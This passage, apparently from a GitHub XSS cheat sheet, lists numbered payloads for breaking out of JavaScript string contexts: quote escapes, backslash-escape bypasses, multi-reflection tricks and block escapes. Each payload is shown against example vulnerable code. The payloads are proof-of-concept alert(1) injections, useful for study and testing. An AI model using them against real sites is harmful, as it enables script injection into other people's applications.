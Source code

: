 * After input the payload
```html
<script>
    var sitekey = ''-alert(1)-'';
</script>
```

8. Same like Number 7. But inside a string delimited value but quotes are escaped by a backslash.
```html
\'alert(1)//
```

* Example source code
```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

* If we input payload '-alert(1)-' it will be like this
```html
<script>
    var sitekey = '\'-alert(1)-\'';
</script>
```
The quotes are escaped by a backslash so we need to bypass them

* After input the payload
```html
<script>
    var sitekey = '\\'alert(1)//';
</script>
```

9. Use when there’s multi reflection in the same line of JS code
```html
/alert(1)//\
/alert(1)}//\
```

* Example source code
```html
<script>
    var a = 'REFLECTED_HERE'; var b = 'REFLECTED_HERE';
</script>
```

* After input the payload
```html
<script>
    var a = '/alert(1)//\'; var b = '/alert(1)//\';
</script>
```

10. Use when input inside a string delimited value and inside a single logical block like function or conditional (if, else, etc).
```html
'}alert(1);{'
\'}alert(1);{// 
```
